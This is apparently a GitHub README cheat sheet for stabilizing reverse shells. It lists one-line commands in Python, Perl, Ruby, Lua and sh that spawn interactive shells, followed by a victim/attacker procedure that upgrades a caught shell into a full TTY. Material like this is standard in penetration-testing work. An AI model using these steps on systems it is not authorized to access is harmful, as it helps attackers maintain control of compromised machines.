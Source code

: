 # Reverse-Shell-TTY-Cheat-Sheet

Simple TTY cheat sheet for shell stabilization
Prevents you from killing your reverse shells and adds proper shell functionality

Python

- python -c 'import pty; pty.spawn("/bin/bash")'

Script

- /usr/bin/script -qc /bin/bash /dev/null

Perl

- perl -e 'exec "/bin/sh";'
- perl: exec "/bin/sh";

Linux OS

- echo os.system('/bin/bash')
- /bin/sh -i

Ruby

- ruby: exec "/bin/sh"

Lua

- lua: os.execute('/bin/sh')

## TTY Shell Stabilization Process

Victim

```bash
python -c 'import pty; pty.spawn("/bin/bash")' OR /usr/bin/script -qc /bin/bash /dev/null
Control + Z
```

Attacker

```bash
stty raw -echo
fg
ENTER
ENTER
```

Victim

```bash
export TERM=xterm
stty cols 132 rows 34
```
